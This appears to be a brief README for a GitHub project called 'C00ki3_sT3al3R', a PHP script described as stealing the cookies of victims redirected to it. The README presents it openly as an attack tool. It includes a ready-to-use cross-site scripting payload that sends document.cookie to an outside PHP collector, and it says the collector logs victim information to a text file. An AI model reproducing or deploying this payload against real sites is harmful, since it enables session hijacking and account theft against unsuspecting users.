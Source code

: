 # C00ki3_sT3al3R
cookie stealer it is a simple script in php it is steal the victim cookie if the victim Redirect to it
/*
 * EX : <script>document.location = "http://www.sad.org/cookies_stealer.php?c =" + document.cookie</script>
 * the sad_cookies.txt will be creating and contain victim information
 */
